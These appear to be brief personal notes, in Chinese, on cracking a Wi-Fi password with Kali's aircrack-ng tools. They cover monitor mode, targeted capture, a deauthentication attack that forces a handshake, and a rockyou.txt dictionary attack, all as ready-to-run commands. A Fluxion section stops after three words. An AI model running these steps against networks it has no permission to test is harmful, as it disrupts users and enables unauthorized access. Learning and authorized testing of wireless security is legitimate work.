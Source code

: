 ```yaml
---
tags: Kali WiFi
---
```










1.   连接无线网卡: `ifconfig`, 
2.   开启无线网卡: `airmon-ng start wlan0`, 
3.   监听: `airodump-ng wlan0mon`, 
     -   `PWR`: 信号强度, 数字越低信号越强.
     -   `CH`: WiFi信道.
     -   
4.    `airodump-ng -c 1 --bssid FA:4C:1F:A0:19:8E  -w ~/ wlan0mon`, 
5.   发起反认证攻击:`aireplay-ng -0 10 -a FA:4C:1F:A0:19:8E wlan0mon`
     -   `-0`, 发送包的次数, 参数`0`为发送无数次.
6.   字典爆破(适合纯数字): `aircrack-ng -a2 -b FA:4C:1F:A0:19:8E -w /home/hep/rockyou.txt ~/*.cap`







# fluxion

由于这里是





[^1]:[已中止，xterm 测试会话失败。·问题 #1073 ·通量网络/通量 (github.com)](https://github.com/FluxionNetwork/fluxion/issues/1073#issuecomment-989594371);